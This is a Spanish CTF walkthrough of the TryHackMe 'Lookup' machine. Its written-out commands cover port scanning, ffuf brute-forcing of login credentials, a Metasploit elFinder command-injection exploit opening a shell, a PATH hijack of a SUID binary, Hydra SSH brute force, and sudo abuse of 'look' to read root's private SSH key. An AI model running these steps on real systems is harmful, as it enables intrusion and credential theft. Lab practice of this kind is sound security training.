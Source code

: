 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Easy
  - HTTP
  - FuzzingWeb
  - Searchsploit
  - MSF
  - Sudo
  - Hijacking
  - Hydra
  - SSH
  - PrivilegeEscalation
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Searchsploit|Searchsploit]]
	- [[#Explotación#MSFconsole|MSFconsole]]
	- [[#Explotación#SUID - Movimiento lateral|SUID - Movimiento lateral]]
		- [[#SUID - Movimiento lateral#Hydra|Hydra]]
		- [[#SUID - Movimiento lateral#SSH|SSH]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]
		- [[#Escalada de Privilegios#SSH|SSH]]

---
# Resolviendo la máquina Lookup

>En esta publicación, comparto cómo resolví la máquina **Lookup** de [TryHackMe](https://tryhackme.com/room/lookup).

---
## Enumeración
### Ping

`ping -c 1 10.10.245.109`

![[Pasted image 20250810094614.png]]

*TTL=63/64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.245.109 -oG allPorts`

![[Pasted image 20250810094705.png]]

`nmap -p22,80 -sCV 10.10.245.109 -oN targeted`

![[Pasted image 20250810094722.png]]
### HTTP

`http://10.10.245.109`

`echo "10.10.245.109 lookup.thm" >> /etc/hosts`

![[Pasted image 20250810094946.png]]

![[Pasted image 20250810095141.png]]

![[Pasted image 20250810095159.png]]
#### Fuzzing Web

`ffuf -u https://10.10.245.109/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.lookup.thm" -fs 4605`

![[Pasted image 20250810095042.png]]

`dirb http://lookup.thm/`

![[Pasted image 20250810095101.png]]

`ffuf -u 'http://lookup.thm/login.php' -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'username=FUZZ&password=test' -w /usr/share/seclists/Usernames/Names/names.txt -mc all -ic -fs 74 -t 100`

![[Pasted image 20250810095237.png]]

Se encuentran los usuarios: `admin` y `jose`.

Se procede a descubrir la contraseña del usuario `jose`.

`ffuf -u 'http://lookup.thm/login.php' -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'username=jose&password=FUZZ' -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -mc all -ic -fs 62 -t 100`

![[Pasted image 20250810095529.png]]

Se inicia sesión en el portal.

![[Pasted image 20250810095643.png]]

Se visualizan todos los archivos, pero no se encuentra nada.

![[Pasted image 20250810095806.png]]

---
## Explotación
### Searchsploit

`searchsploit elFinder 2.1.47`

![[Pasted image 20250810095945.png]]
### MSFconsole

`msfconsole`

`exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection`

```bash
search elfinder
use 4 | use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
show options
set RHOSTS files.lookup.thm
set LHOST 10.8.184.124
exploit
```

![[Pasted image 20250810100245.png]]

`sysinfo`

![[Pasted image 20250810100332.png]]

`getuid`

![[Pasted image 20250810100347.png]]

`shell`

`/bin/bash -i`
### SUID - Movimiento lateral

`find / -perm -4000 2>/dev/null`

![[Pasted image 20250810100501.png]]

`/usr/sbin/pwm`

![[Pasted image 20250810103147.png]]

`id`

![[Pasted image 20250810100646.png]]

`cd /tmp`

`echo '#!/bin/bash' > id`

`echo 'echo "uid=1000(think) gid=1000(think) groups=1000(think)"' >> id`

`echo $PATH`

![[Pasted image 20250810101308.png]]

`PATH=/tmp:$PATH`

`/usr/sbin/pwm`

![[Pasted image 20250810101843.png]]

Se almacena la información en un archivo llamado: `passwords.txt`.
#### Hydra

Se realiza fuerza bruta.

`hydra -l think -P passwords.txt ssh://10.10.245.109`

![[Pasted image 20250810101958.png]]

Se encuentra la contraseña del usuario `think`.
#### SSH

`ssh think@10.10.245.109`

![[Pasted image 20250810102058.png]]
### Escalada de Privilegios
#### Sudo

`sudo -l`

![[Pasted image 20250810102207.png]]

Se encuentra el binario: `/usr/bin/look`, se realiza una búsqueda por [GTFOBins](https://gtfobins.github.io/gtfobins/look/#suid).

![[Pasted image 20250810102301.png]]

`sudo /usr/bin/look '' /root/.ssh/id_rsa`

![[Pasted image 20250810102816.png]]

Se crea un archivo llamado: `id_rsa` y se copia toda la contraseña.

`vim id_rsa`

`chmod 600 id_rsa`
#### SSH

`ssh -i id_rsa root@10.10.245.109`

![[Pasted image 20250810103057.png]]

---






